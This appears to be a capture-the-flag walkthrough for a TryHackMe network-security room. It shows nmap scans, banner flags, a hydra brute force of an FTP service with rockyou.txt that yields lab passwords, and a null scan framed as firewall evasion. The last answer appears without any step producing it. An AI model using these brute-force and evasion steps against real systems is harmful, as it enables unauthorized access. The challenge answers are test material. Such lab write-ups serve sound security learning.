 ```yaml
---
title: "Net Sec Challenge"
subtitle: "Challenge to test your network security skills."
date: 2025-07-25
tags: [tryhackme]
---
```


This is a walkthrough for the TryHackMe room [Network Security Challenge Room](https://tryhackme.com/room/netsecchallenge). This challenge is designed to use [nmap](/docs/networking/nmap), [telnet](/docs/networking/telnet), [ftp](/docs/networking/ftp) and [hydra](/docs/security/tools/hydra) to find flags and learn about network security.
<!-- truncate -->

### Information Gathering

Start the machine and save IP address for the room.

```sh
export IP=10.10.164.150
```

Let's use [ping](https://en.wikipedia.org/wiki/Ping_(networking_utility)) to check if the machine is reachable.

```sh
ping $IP
64 bytes from 10.10.164.150: icmp_seq=0 ttl=63 time=21.815 ms
```

**1. What is the highest port number being open less than 10,000?**

Let's use [nmap](/docs/networking/nmap) to scan the target for the first 10.000 ports.

```sh
nmap -p1-10000 -T4 $IP
#     |         |-> -T4 for faster execution
#     |-> -p1-10000 to scan ports from 1 to 10.000
Nmap scan report for 10.10.164.150
Host is up (0.022s latency).
Not shown: 9995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 49.03 seconds
```

**Answer:** 8080

**2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

Let's use `-p-` to scan all ports (65535 ports) and see if there are any other open ports.

```sh
nmap -p- -T4 $IP
#     |   |-> -T4 for faster execution
#     |-> -p- to scan all ports
Nmap scan report for 10.10.164.150
Host is up (0.021s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

**Answer:** 10021

**3. How many TCP ports are open?**

```sh
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
10021/tcp open  unknown
```

**Answer:** 6

**4. What is the flag hidden in the HTTP server header?**

Let's use nmap [http-header](https://nmap.org/nsedoc/scripts/http-headers.html) scanning script to find the HTTP server header.

```sh
nmap -p 80 --script=http-headers $IP
#     |             |-> -http-headers script to scan HTTP headers
#     |-> -p 80 to scan port 80
PORT   STATE SERVICE VERSION
80/tcp open  http    lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-headers:
|   Content-Type: text/html
|   Accept-Ranges: bytes
|   ETag: "229449419"
|   Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
|   Content-Length: 226
|   Connection: close
|   Date: Mon, 28 Jul 2025 10:35:10 GMT
|   Server: lighttpd THM{web_server_25352}
|
|_  (Request type: HEAD)
```

**Answer:** `THM{web_server_25352}`

**5. What is the flag hidden in the SSH server header?**

Let's use nmap [ssh-auth-methods](https://nmap.org/nsedoc/scripts/ssh-auth-methods.html) script to find our flag.

```sh
nmap -p 22 --script=ssh-auth-methods $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| ssh-auth-methods:
|   Supported authentication methods:
|     publickey
|_    password
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.95%I=7%D=7/28%Time=6887538E%P=arm-apple-darwin24.2.0%r(N
SF:ULL,2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\x20\r\n");
```

Also, the SSH service is unrecognized because of its modified banner because it contains our flag.

**Answer:** `THM{946219583339}`

**6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```sh
nmap -sV -p- -T4 $IP
#     |   |   |-> -T4 for faster execution
#     |   |-> -p- to scan all ports
#     |-> -sV for service version detection
...
10021/tcp open  ftp         vsftpd 3.0.5
...
```

Answer: `vsftpd 3.0.5`

**7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

Let's use [Hydra](/docs/security/tools/hydra) to brute force the FTP service on port `10021`. We will use the usernames **`eddie`** and **`quinn`** that we learned about, and the password list [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). I added the usernames to a file called `user-list`.

```sh
hydra -L user-list -P rockyou.txt -s 10021 ftp://$IP
#      |            |              |        |-> ftp://$IP to specify the FTP service
#      |            |              |-> -s 10021 to specify the port
#      |            |-> -P to specify a file with passwords
#      |-> -L to specify a file with usernames   
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking ftp://10.10.164.150:10021/
[10021][ftp] host: 10.10.164.150   login: eddie   password: jordan
[10021][ftp] host: 10.10.164.150   login: quinn   password: andrea
1 of 1 target successfully completed, 2 valid passwords found
```

We successfully brute-forced the FTP service and found two valid credentials:

- Username: `eddie`, Password: `jordan`
- Username: `quinn`, Password: `andrea`

Now, let's connect to the FTP service using the `eddie` user and `quinn` users to see if we can find any flags.

Nothing discovered on the `eddie` user.

But we found a filename `ftp_flag.txt` in the `quinn` user and downloaded it to our machine.

```sh
ftp 10.10.164.150 10021
Connected to 10.10.164.150.
220 (vsFTPd 3.0.5)
Name (10.10.164.150:root): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (39.4128 kB/s)
```

```sh
cat ftp_flag.txt 
THM{321452667098}
```

**Answer:** `THM{321452667098}`

**8. Browsing to [http://10.10.164.150:8080](http://10.10.164.150:8080) displays a small challenge that will give you a flag once you solve it. What is the flag?**

Null Scan doesn't set any TCP flags, so it is useful to bypass firewalls and packet filters that block certain types of traffic. Let's use nmap with the `-sN` option to perform a null scan on port `8080`.

```sh
nmap -sN 10.10.164.150
Nmap scan report for 10.10.164.150
Host is up (0.027s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
8080/tcp open|filtered http-proxy
```

**Answer:** `THM{f7443f99}`

### Conclusion

This room was a great practice for network security skills, including using tools like nmap, telnet, ftp, and hydra to find flags and learn about network security.
The advanced technique like null scan was a nice touch to bypass firewalls and packet filters, sometimes we need to avoid detection and remain "stealthy" if possible.

### Links

- [TryHackMe: Nmap Advanced Port Scans](https://tryhackme.com/room/nmap03)
